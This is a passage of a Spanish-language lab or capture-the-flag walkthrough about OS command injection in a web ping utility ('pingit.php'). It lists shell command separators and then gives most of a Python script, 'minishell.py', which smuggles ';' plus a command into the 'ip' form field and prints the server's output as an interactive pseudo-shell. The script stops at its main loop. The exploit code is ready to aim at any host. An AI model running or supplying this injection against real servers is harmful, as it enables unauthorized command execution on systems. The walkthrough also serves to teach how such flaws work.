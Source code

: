 ![](https://lh6.googleusercontent.com/IdcTXMprS_AI5lVcMnh2R_QeVhPMsIKl3k4Y1m-AesG0SSIAfZxPQ-n8r8I_0UEc8mteh125dpfz94A2DTd_bnwcwBzx5VsyPq3KUEDaAeyRq-5ac4MrhtQ3QxSqPA1yN_LpR_xl)

Prácticamente lo que hace esto es hacer ping contra las máquinas que se encuentren en la red.

![](https://lh6.googleusercontent.com/k4sldG95m9fflpmjMhYGEoC_mD2YRSpwf8a_2GLRUrQ3pF0i0wR0tdqlW72Pqhs7ng1ImJj_jOh088YMOZXOO2X9kNtA3Ja3bejaOM0yqY4UvMwd2nW8zsb9Jru3C44DuLfXpKc7)

![](https://lh5.googleusercontent.com/kSC47zQE1VrPFjYQ57RevYY66oDfIAU35zC8PE6OWvZmlrYaIMFP3qVO5TCBnRXcWKvGX5TgarA3jj2c909ewOGxYL7yjCJ2PPY4BlLm-IHEJwKEWAEv06ahCx9GPdqHan6AJvjA)

Al parecer está funcionando. ¿ cómo aprovecharnos de esto ? pues la respuesta es muy sencilla utilizando separadores de comandos.

  

Estos son algunos separadores:

-   && (AND)

-   || (OR)

-   ; (COMILLAS)
    

![](https://lh4.googleusercontent.com/myrhJ3-vPANfcySann_LDlDxAm1Au56f70SBT7s6mqEDjm0hUCvA324RL4VceSosCG9MXyUL17YaivJziVOVVIvMvaLjOVCTGRK4E-1uXlWbxmsEdBWg8LBAn4XQI3trCaFB6V9x)

Pues es tan sencillo como llevar este concepto a la utilidad que se encuentra en el servidor.

![](https://lh5.googleusercontent.com/S3Y1rewqGO3KURzDG78GtWbcKKbbwi7lOsdUoNF3G9Tg3HeZOzfp4y-TW7HIauJTiDd3J58Tc9Qwei0k_kMKhLm54mWU_DVitOS1cf473TYvMbmdL8t37Jc_Xf8lV9TlmEWdfJic)

![](https://lh6.googleusercontent.com/PtIo-Nu8zE4sMwtjbzTmGhutJotZiIHIptK-RCL4Yei_3lhIEy0ZPEY6yK9L-rDJ-Vzh7Kpg3pDTSnqC0XjhqnN4upe4rVRkZqNvgB31d_AygV8ap8Jz4QtD8AtzU2_MSRatK7SN)

Bien,vamos a crearnos un script aprovechandonos de este concepto, ya que se me hace muy aburrido solo mandarme una reverse shell.

# Script: minishell.py

```python
#!/usr/bin/env python3

import requests,signal,sys

def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)

def shell(comando,rhost):
	url = "http://{}/pingit.php".format(rhost)

	data1={
		"ip":";{}".format(comando),
		"submit":"submit"
	}
	r1 = requests.post(url,data=data1)
	response= (r1.text.split("<pre>")[1]).replace("</pre>","").strip()
	print(response)


if __name__ == "__main__":

	if(len(sys.argv) != 2):
		print("[*] Uso: python3 {} <rhost>".format(sys.argv[0]))
		sys.exit(1)

	rhost = sys.argv[1]

	while True:
```